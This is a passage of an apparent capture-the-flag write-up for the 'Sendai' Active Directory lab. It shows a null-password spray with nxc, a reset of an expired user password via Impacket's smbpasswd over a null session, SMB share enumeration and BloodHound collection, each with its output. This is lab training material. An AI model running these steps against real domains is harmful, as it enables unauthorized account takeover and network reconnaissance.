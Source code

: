     Lawrence.Grant
    Leslie.Johnson
    Megan.Edwards
    Thomas.Powell
    mgtsvc$

spray part

    ➜  sendai nxc smb DC -u users.txt -p '' --no-bruteforce --continue-on-success

    SMB         10.10.65.237    445    DC               [-] sendai.vl\Elliot.Yates: STATUS_PASSWORD_MUST_CHANGE

    SMB         10.10.65.237    445    DC               [-] sendai.vl\Thomas.Powell: STATUS_PASSWORD_MUST_CHANGE

Same what we did at Baby

## smbpasswd

    ➜  sendai python3 smbpasswd.py  'Elliot.Yates:@sendai.vl' -newpass Password123!
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    Current SMB password: 
    [!] Password is expired, trying to bind with a null session.
    [*] Password was changed successfully.
    ➜  sendai nxc smb DC -u Elliot.Yates -p 'Password123!'
    SMB         10.10.65.237    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
    SMB         10.10.65.237    445    DC               [+] sendai.vl\Elliot.Yates:Password123! 

#### shares now 


    ➜  sendai nxc smb DC -u Elliot.Yates -p 'Password123!' --shares
    SMB         10.10.65.237    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
    SMB         10.10.65.237    445    DC               [+] sendai.vl\Elliot.Yates:Password123! 
    SMB         10.10.65.237    445    DC               [*] Enumerated shares
    SMB         10.10.65.237    445    DC               Share           Permissions     Remark
    SMB         10.10.65.237    445    DC               -----           -----------     ------
    SMB         10.10.65.237    445    DC               ADMIN$                          Remote Admin
    SMB         10.10.65.237    445    DC               C$                              Default share
    SMB         10.10.65.237    445    DC               config          READ,WRITE      
    SMB         10.10.65.237    445    DC               IPC$            READ            Remote IPC
    SMB         10.10.65.237    445    DC               NETLOGON        READ            Logon server share 
    SMB         10.10.65.237    445    DC               sendai          READ,WRITE      company share
    SMB         10.10.65.237    445    DC               SYSVOL          RE

#### bloodhound

    ➜  bloodhound bloodhound-python -c ALL -u 'Elliot.Yates' -p 'Password123!' -d sendai.vl -ns 10.10.65.237
    INFO: Found AD domain: sendai.vl
    INFO: Getting TGT for user
    WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.sendai.vl:88)] [Errno -2] Name or service not known
    INFO: Connecting to LDAP server: dc.sendai.vl
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 1 computers
    INFO: Connecting to LDAP server: dc.sendai.vl
    INFO: Found 27 users
    INFO: Found 57 groups
    INFO: Found 2 gpos
    INFO: Found 5 ous